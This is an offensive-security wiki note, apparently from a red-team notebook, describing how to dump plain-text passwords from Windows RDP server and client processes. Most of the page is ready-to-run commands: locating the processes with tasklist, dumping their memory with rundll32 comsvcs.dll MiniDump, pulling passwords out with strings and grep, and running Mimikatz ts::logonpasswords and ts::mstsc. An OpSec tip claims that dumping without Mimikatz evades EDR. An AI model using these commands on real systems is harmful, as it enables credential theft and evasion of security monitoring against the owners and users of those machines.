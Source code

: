 ```yaml
---
title: RDP Dump
---
```


[[notes/mitre-attack/credential-access]] on [[notes/windows/index]] from [[notes/network/rdp]] processes.

Dump plain text passwords from RDP server processes.

=== "builtin"
    Find RDP processes holding credentials.

    ~~~ bat
    tasklist.exe /m:rdpcorets.dll
    ~~~

    Dump process memory.

    ~~~ bat
    rundll32.exe comsvcs.dll,MiniDump %PID% .\%COMPUTERNAME%.log full
    ~~~

    Extract plain passwords.

    ~~~ bash
    strings -el ./$COMPUTERNAME.log | grep -F -C3 -e '\\?\SWD#RemoteDisplayEnum#RdpIdd_IndirectDisplay&SessionId' -e $USERNAME
    ~~~

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe privilege::debug ts::logonpasswords exit
    ~~~

Dump plain text passwords from RDP client processes.

=== "[[notes/tools/mimikatz]]"
    ~~~ powershell
    tasklist.exe /fi "imagename eq mstsc.exe"
    .\mimikatz.exe privilege::debug ts::mstsc exit
    ~~~

> **OpSec:** Dumping regular processes without Mimikatz should not be detected by an EDR.

References:

- [ppn.snovvcrash.rocks/pentest/infrastructure/ad/credentials-dump/from-memory/svchost-exe](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credentials-dump/from-memory/svchost-exe)

